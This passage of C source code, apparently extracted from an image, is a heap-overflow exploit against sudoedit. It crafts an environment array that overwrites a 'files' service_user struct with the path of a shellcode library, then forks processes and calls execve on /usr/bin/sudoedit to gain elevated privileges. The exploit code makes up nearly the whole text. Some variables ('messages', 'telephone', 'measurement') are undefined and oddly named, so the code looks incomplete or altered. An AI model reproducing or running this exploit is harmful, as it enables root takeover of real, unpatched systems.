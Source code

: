 ```c
    // Use it to bridge the gap between the overflow and the target service_user struct.
    char overflow[0x500] = {0};
    memset(overflow, 'X', 0x4cf);
    strcat(overflow, "\\");

    // Overwrite the 'files' service_user struct's name with the path of our shellcode library.
    // The backslashes write nulls which are needed to dodge a couple of crashes.
    char* envp[] = {
        overflow,
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "XXXXXXX\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "x/x\\",
        "Z",
        messages,
        telephone,
        measurement,
        NULL};

	int des_p[2];
	if(pipe(des_p) == -1){

		puts("Error .. pipe \n");
		return -1;
	}
	
	if(fork() == 0)   
        {
            close(STDOUT_FILENO);
            dup(des_p[1]);  
            close(des_p[0]); 
	    write(des_p[1],command, strlen(command));
            close(des_p[1]);
	    exit(1);
        }

	if(fork()==0){
		close(STDIN_FILENO); 
		dup(des_p[0]);  
		close(des_p[1]); 
		close(des_p[0]);
		
		execve("/usr/bin/sudoedit", sudoedit_argv, envp);
		perror("execvp of stdread failed");
		exit(1);
	}
	close(des_p[0]);
	close(des_p[1]);
	wait(0);
	wait(0);
}
```
